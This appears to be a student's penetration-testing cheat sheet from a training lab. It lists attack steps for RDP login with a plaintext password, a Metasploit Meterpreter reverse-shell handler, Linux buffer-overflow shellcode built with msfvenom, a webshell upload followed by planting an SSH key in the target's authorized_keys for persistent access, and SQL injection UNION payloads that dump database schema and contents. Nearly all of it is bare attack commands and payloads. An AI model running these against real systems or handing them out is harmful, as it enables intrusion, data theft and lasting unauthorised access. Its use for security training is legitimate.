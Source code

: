 			xfreerdp /u:Lroth /p:anotherpassword4THEages /dynamic-resolution +clipboard /v:127.0.0.1:45000
				change port on secureserverBuffo.py to prep windows box

				netstat -ano for PID for SecureServer
				tasklist /svc | findstr /i "secure"
				
			msfvenom
				use exploit/multi/handler
				set payload windows/meterpreter/reverse_tcp
				set lhost 0.0.0.0
				./secureserverBuffo.py
				run multi/handler
				
			
			
FOR LINUX BUFFER OVERFLOW
	./func
	get EIP from gdb
	restart gdb and unset env variables
	run
	take first location after heap and last location in stack: find /b 0x...., 0x...., 0xff, 0xe4
		PICK TOP 4 AND ADD TO mybuff script
		NOP sled
		OUTPUT OF msfvenom -p linux/x86/exec CMD=whoami -b "\x00" -f python OTHER THAN EMPTY TOP LINE
		
FOR WEBSHELL
	upload /home/student/Downloads/webshell.php
		CHECK FOR ACCESS TO /uploads
		access file if possible
	ssh-keygen -t rsa -b 4096
		do not set a password
		cat id_rsa.pub
			copy whole key
			cat /etc/passwd on target
				key will be put in target home directory
					mkdir .ssh in target home directory
						ls -a .ssh directory just created
					echo "whole key"> /.../.../.ssh/authorized_keys
						PUTS KEY IN FILE ALLOWING ACCESS
	ssh user@IP to test key (use -i id_rsa.pub filepath if necessary)
	
	
SQL INJECTION
	use F12>Network to capture the POST request, copy the POST request into the browser after .php? to exploit login
	Item' or 1='1;	should cause a table overflow
	Item' UNION select 1,2,3,4 #	TO FIGURE OUT NUMBER OF COLUMNS
	Item' UNION select table_schema,2,table_name,column_name,5 from information_schema.columns #	
	Item' UNION select color,2,name,carid,type from session.car #
	Item' UNION select 1,2,@@version,4,5 #
	
	
	.php?Selection=# OR 1=1 #
	.php?Selection=# UNION select 1,2,3 #
	.php?Selection=# UNION select 1,3,2 #
	.php?Selection=# UNION select table_shema,column_name,table_name from information_schema.columns #
	.php?Selection=# UNION select 1,2,@@version #

